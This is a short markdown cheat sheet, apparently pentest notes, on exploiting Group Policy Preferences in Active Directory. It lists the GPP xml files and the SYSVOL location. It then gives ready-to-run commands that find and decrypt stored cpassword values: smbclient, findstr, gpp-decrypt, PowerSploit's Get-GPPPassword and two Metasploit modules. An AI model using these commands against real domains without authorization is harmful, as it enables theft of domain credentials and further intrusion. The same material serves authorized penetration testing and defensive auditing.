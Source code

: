 # GGP (Group Policy Preferences)

* groups.xml
* scheduledtasks.xml
* services.xml
* datasources.xml
* printers.xml
* drives.xml

## Group Policies Location
```
DC-IP\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```

## Access SYSVOL with smbclient
```
smbclient \\\\DC-IP\\SYSVOL –U domain/user
```

## Find cpassword in xml files
```
findstr /S /I cpassword \\<DOMAIN>\sysvol\<DOMAIN>\policies\*.xml
```

## Decrypt GPP password
```
gpp-decrypt <decrypt-password>
```

## Exploiting PowerSploit
```
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

## Exploiting Metasploit
```
auxiliary/scanner/smb/smb_enum_gpp
```
```
post/windows/gather/credentials/gpp
```

## See also
* [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
* [AES Key](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)
* [Powersploit Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)
